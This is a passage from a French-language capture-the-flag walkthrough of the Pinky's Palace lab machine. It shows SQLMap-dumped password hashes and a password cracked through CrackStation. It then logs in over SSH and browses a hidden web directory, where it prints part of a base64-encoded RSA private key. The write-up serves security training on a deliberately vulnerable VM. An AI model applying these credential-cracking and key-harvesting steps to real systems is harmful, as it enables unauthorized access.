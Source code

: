 ```console
+-----+----------------------------------+-------------+
| uid | pass                             | user        |
+-----+----------------------------------+-------------+
| 1   | f543dbfeaf238729831a321c7a68bee4 | pinky       |
| 2   | d60dffed7cc0d87e1f4a11aa06ca73af | pinkymanage |
+-----+----------------------------------+-------------+
```

[L'attaque par dictionnaire sur les hashs de mots de passe](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf) trouvés par SQLMap n'a pas porté ses fruits. Heureusement, [CrackStation](https://crackstation.net/) arrive à la rescousse : le hash du mot de passe de pinkymanager a déjà été calculé, le mot de passe est 3pinkysaf33pinkysaf3. La découverte de ces mots de passe permet à un attaquant de se connecter en SSH sur le serveur Pinky's Palace.

## Clouseau de trè.. euh... trousseau de clés SSH

```console
root@blinils:~/pinkyspalace-v1# ssh pinkymanage@192.168.56.103 -p 64666
pinkymanage@192.168.56.103's password: 
Linux pinkys-palace 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Apr 19 09:33:23 2018 from 192.168.56.101
pinkymanage@pinkys-palace:~$ id
uid=1001(pinkymanage) gid=1001(pinkymanage) groups=1001(pinkymanage)
pinkymanage@pinkys-palace:~$ uname -a
Linux pinkys-palace 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23) x86_64 GNU/Linux
```

On retrouve dans le répertoire /var/www/html les pages index.php et login.php, ainsi qu'une page logs.php qui n'avait pas été indexée par DIRB. Cette page consigne l'ensemble des tentatives de connexion au site, et stocke ainsi le login et le mot de passe testés, mais surtout... le User-Agent utilisé. Le répertoire _ultrasecretadminf1l35_ semble particulièrement alléchant pour la suite du CTF.

```console
pinkymanage@pinkys-palace:~$ cd /var/www/html/littlesecrets-main/
pinkymanage@pinkys-palace:/var/www/html/littlesecrets-main$ ls -al
total 24
drwxr-xr-x 3 root root 4096 Feb  2 02:25 .
drwxr-xr-x 3 root root 4096 Feb  2 02:24 ..
-rw-r--r-- 1 root root  583 Feb  2 02:25 index.html
-rw-r--r-- 1 root root  934 Feb  2 01:35 login.php
-rw-r--r-- 1 root root  464 Feb  2 01:33 logs.php
drwxr-xr-x 2 root root 4096 Feb  2 02:27 ultrasecretadminf1l35


pinkymanage@pinkys-palace:/var/www/html/littlesecrets-main$ cd ultrasecretadminf1l35/
pinkymanage@pinkys-palace:/var/www/html/littlesecrets-main/ultrasecretadminf1l35$ ls -al
total 16
drwxr-xr-x 2 root root 4096 Feb  2 02:27 .
drwxr-xr-x 3 root root 4096 Feb  2 02:25 ..
-rw-r--r-- 1 root root 2270 Feb  2 01:38 .ultrasecret
-rw-r--r-- 1 root root   99 Feb  2 01:17 note.txt

pinkymanage@pinkys-palace:/var/www/html/littlesecrets-main/ultrasecretadminf1l35$ cat note.txt
Hmm just in case I get locked out of my server I put this rsa key here.. Nobody will find it heh..

pinkymanage@pinkys-palace:/var/www/html/littlesecrets-main/ultrasecretadminf1l35$ cat .ultrasecret
LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlFcEFJQkFBS0NBUUVBMTZmeEwzLyto
L0lMVFpld2t2ZWtoSVExeWswb0xJK3kzTjRBSXRraGV6MTFJaGE4CkhjN0tPeC9MOWcyamQzSDhk
```